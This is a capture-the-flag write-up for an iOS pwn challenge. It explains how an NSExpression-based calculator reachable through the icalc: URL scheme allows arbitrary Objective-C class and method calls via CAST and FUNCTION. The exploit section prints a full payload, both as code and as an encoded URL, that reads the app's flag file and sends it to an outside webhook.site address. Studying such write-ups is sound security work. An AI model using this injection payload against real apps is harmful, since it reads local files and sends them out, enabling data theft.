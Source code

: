 ## Dezhou Instrumentz - pwn problem - 378 points (6 solves)

### Description

We're given an iPhone app which implements a simple calculator, and the ability to send a URL to a real physical iPhone with the app installed.

### Reversing

The code is written in Swift, and is thankfully full of symbols so it's very easy to reverse. The Info.plist shows that the calculator app provides the `icalc:` URL scheme, which is used to set the expression. It uses the built-in iOS NSExpression class to parse and execute the expressions you give it.

NSExpression is *very* powerful. It supports calling a large number of numeric methods out of NSPredicateUtilities, but most interestingly provides the `FUNCTION` and `CAST` operators which respectively let you call any Objective-C method on any object and let you cast any object to another type.

At first, it looked like we were only limited to calling methods on literals, such as strings, arrays and numbers. This is enough to call things like `superclass` to walk up the class hierarchy, but Objective-C doesn't provide a method to give you all the subclasses of a class.

To figure out if we could do more, we reversed the `+[NSPredicateUtilities castObject:(id) toType:(NSString)]` method in Foundation, which provides the `CAST` operator. To our surprise, the first thing it does is to check if the type is the string `Class`, and if so, directly calls `NSClassFromString` on the first argument to return that class object.

With this, it's possible to basically call any static method, which is sufficient to formulate an exploit. (This also shows that `NSExpression` is the closest thing that Objective-C/Swift have to an `eval` function!)

### Exploit

The exploit is pretty straightforward, and consists essentially of the following Objective-C code encoded as `FUNCTION` and `CLASS` calls:

```
id flagPath = [[NSBundle mainBundle] pathForResource:@"flag" ofType:@""];
id flag = [NSString stringWithContentsOfFile:flagPath];
id charset = [NSCharacterSet URLPathAllowedCharacterSet];
id encodedFlag = [flag stringByAddingPercentEncodingWithAllowedCharacters:charset];
id urlString = [@"https://webhook.site/2c4242f2-e8a2-46ce-ace8-373012388bbe/" stringByAppendingString:encodedFlag];
id url = [NSURL URLWithString:urlString];
id payload = [NSString stringWithContentsOfURL:url];
```

Encoded as an NSExpression using `FUNCTION` and `CAST` operators:

`FUNCTION(CAST('NSString', 'Class'), 'stringWithContentsOfURL:', FUNCTION(CAST('NSURL', 'Class'), 'URLWithString:', FUNCTION('https://webhook.site/2c4242f2-e8a2-46ce-ace8-373012388bbe/', 'stringByAppendingString:', FUNCTION(FUNCTION(CAST('NSString', 'Class'), 'stringWithContentsOfFile:', FUNCTION(FUNCTION(CAST('NSBundle', 'Class'), 'mainBundle'), 'pathForResource:ofType:', 'flag', '')), 'stringByAddingPercentEncodingWithAllowedCharacters:', FUNCTION(CAST('NSCharacterSet', 'Class'), 'URLPathAllowedCharacterSet')))))`

We encode the payload expression into the host part of an `icalc://` URL:

`icalc://FUNCTION%28CAST%28%27NSString%27%2C%20%27Class%27%29%2C%20%27stringWithContentsOfURL%3A%27%2C%20FUNCTION%28CAST%28%27NSURL%27%2C%20%27Class%27%29%2C%20%27URLWithString%3A%27%2C%20FUNCTION%28%27https%3A%2F%2Fwebhook.site%2F2c4242f2-e8a2-46ce-ace8-373012388bbe%2F%27%2C%20%27stringByAppendingString%3A%27%2C%20FUNCTION%28FUNCTION%28CAST%28%27NSString%27%2C%20%27Class%27%29%2C%20%27stringWithContentsOfFile%3A%27%2C%20FUNCTION%28FUNCTION%28CAST%28%27NSBundle%27%2C%20%27Class%27%29%2C%20%27mainBundle%27%29%2C%20%27pathForResource%3AofType%3A%27%2C%20%27flag%27%2C%20%27%27%29%29%2C%20%27stringByAddingPercentEncodingWithAllowedCharacters%3A%27%2C%20FUNCTION%28CAST%28%27NSCharacterSet%27%2C%20%27Class%27%29%2C%20%27URLPathAllowedCharacterSet%27%29%29%29%29%29`

Sending this to the iPhone promptly sends us back the flag in a GET request:

`rwctf{alldayidreamaboutprejailbrokeniphone}`
